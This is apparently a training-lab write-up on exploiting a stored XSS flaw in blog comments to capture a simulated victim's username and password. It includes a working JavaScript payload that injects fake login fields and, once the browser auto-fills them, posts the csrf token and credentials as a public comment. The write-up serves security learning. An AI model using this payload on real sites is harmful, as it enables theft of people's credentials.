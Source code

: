# Exploiting cross-site scripting to capture passwords
# Objective
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

# Solution
This lab requires Professional edition of Burp Suite (Burp Collaborator). Even though, it can be solved without professional version but it is a little bit more complicated.

## Analysis
|![](Images/image-89.png)|
|:--:| 
|![](Images/image-90.png)|
|![](Images/image-91.png)|

In order to steal user’s credentials, attacker should prepare arbitrary JavaScript code that would run in victim browser and that would send credentials in HTTP Request to Burp Collaborator. The assumption is that user would have auto-fill turn on, therefore, after victim’s browser loads the page, browser would fill logging information (username and password). This would trigger (`onchange`) code to send request exfiltrating victim’s credentials.\
\
Other way to steal user’s credentials is to force user to post his credentials in the comment on the website. To perform this attack `csrf` value will be needed while crafting a valid comment for this blog (and credentials - main goal of this attack).

## XSS Exploit

```js
<input type="text" name="username">
<input type=password name="password" onchange="exfiltrate()">

<script>
function exfiltrate() {
var csrftoken = document.getElementsByName('csrf')[0].value;
var username = document.getElementsByName('username')[0].value;
var password = document.getElementsByName('password')[0].value;

var data = new FormData();
data.append('csrf', csrftoken);
data.append('postId', 8);
data.append('comment', `${username}:${password}`);
data.append('name', 'Victim');
data.append('email', 'victim@victim.com');
data.append('website', 'https://example.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data
});
}
</script>
```

|![](Images/image-92.png)|
|:--:| 
|![](Images/image-93.png)|

Everyone who puts data in those field will have their credentials posted on the blog:

![](Images/image-94.png)
